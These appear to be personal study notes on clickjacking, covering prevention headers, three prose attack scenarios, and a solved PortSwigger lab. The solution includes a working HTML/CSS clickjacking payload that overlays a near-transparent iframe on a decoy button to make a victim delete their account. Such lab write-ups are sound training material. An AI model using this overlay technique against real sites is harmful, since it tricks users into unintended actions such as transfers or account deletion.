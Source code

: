 clickjacking: https://portswigger.net/web-security/clickjacking#what-is-clickjacking

Labs path:  https://portswigger.net/web-security/all-labs#clickjacking

==clickjacking preventions :-== 
implement security headers like CSP, X-Frame-Options, implement click confirmation popup(Add a confirmation prompt before performing sensitive actions. eg: allow microphone popup or payment confirmation popup ), **Re-authentication for Critical Actions**  Ask users to enter their password before performing sensitive actions. **Multi-Factor Authentication (MFA)**  Prevent unauthorized actions by requiring an additional verification step.   




### **Scenario 1: Stealing Credentials via Fake Login Page**

**Target:** Online Banking Users  
**Attack:**

1. The attacker creates a malicious website offering a free gift card.
2. The legitimate online banking login page is loaded inside an **invisible iframe**.
3. The attacker places a **fake login form** on top of the iframe, perfectly aligning with the original login fields.
4. When users try to enter their **username and password**, they are actually typing into the **attacker’s form**, which captures the credentials before redirecting the request to the bank’s original form to avoid suspicion.

**Impact:** The attacker steals login credentials, enabling unauthorized access to victims’ bank accounts.

---

### **Scenario 2: Unintended Money Transfer via Clickjacking**

**Target:** Users Authenticated to a Payment Website  
**Attack:**

1. The victim is already logged into their **payment portal** (e.g., PayPal, banking site).
2. The attacker sends the victim a link to an online quiz or a game, where the "Next" button is actually an **invisible transfer button** overlaid from the banking site (via iframe).
3. When the user clicks “Next” or any button in the game, it triggers a **hidden money transfer request**.

**Impact:** The victim unknowingly transfers money to the attacker’s account while believing they are just playing a game.

---

### **Scenario 3: Enabling Webcam & Microphone Access via Clickjacking**

**Target:** Users with Webcams (Google Meet, Zoom, etc.)  
**Attack:**

1. The attacker creates a fake **"Click to Watch Free Video"** page.
2. A transparent **iframe** of the browser’s camera/microphone permission popup is placed exactly over the "Play" button.
3. When the victim clicks "Play," they are unknowingly clicking the **"Allow Camera/Microphone"** button instead.
4. The attacker now has full access to the victim’s webcam and microphone.

**Impact:** The attacker can **spy on the victim** and capture sensitive conversations or footage.

# 1)Lab: Basic clickjacking with CSRF token protection

Lab: https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected
Lab Vid: https://www.youtube.com/watch?v=_tz0O5-cndE&ab_channel=Intigriti (at 5:35 min the conclusion of the lab explained)

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`


#### Note

The victim will be using Chrome so test your exploit on that browser.


#### Solution
1. Log in to your account on the target website.
2. Go to the exploit server and paste the following HTML template into the **Body** section:
```
<style> iframe { position:relative; width:$width_value; height: $height_value; opacity: $opacity; z-index: 2; } div { position:absolute; top:$top_value; left:$side_value; z-index: 1; } </style> <div>Test me</div> <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

1. Make the following adjustments to the template:
    - Replace `YOUR-LAB-ID` in the iframe `src` attribute with your unique lab ID.
    - Substitute suitable pixel values for the `$height_value` and `$width_value` variables of the iframe (we suggest 700px and 500px respectively).
    - Substitute suitable pixel values for the `$top_value` and `$side_value` variables of the decoy web content so that the "Delete account" button and the "Test me" decoy action align (we suggest 300px and 60px respectively).
    - Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
2. Click **Store** and then **View exploit**.
3. Hover over **Test me** and ensure the cursor changes to a hand indicating that the div element is positioned correctly. **Do not actually click the "Delete account" button yourself.** If you do, the lab will be broken and you will need to wait until it resets to try again (about 20 minutes). If the div does not line up properly, adjust the `top` and `left` properties of the style sheet.
4. Once you have the div element lined up correctly, change "Test me" to "Click me" and click **Store**.
5. Click on **Deliver exploit to victim** and the lab should be solved.

**Analysis:**
iframe:- https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe

CSS:- https://developer.mozilla.org/en-US/docs/Web/CSS

==click jacking code:==  for this lab
```
<style>

iframe{
position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;

}
div{
Position:absolute;
top:515px;
left:60px;
z-index: 1;
}
</style>
<div>Click me</div>
<iframe src= "https://0aed002e0411e037808830210079002f.web-security-academy.net/my-account"></iframe>
```
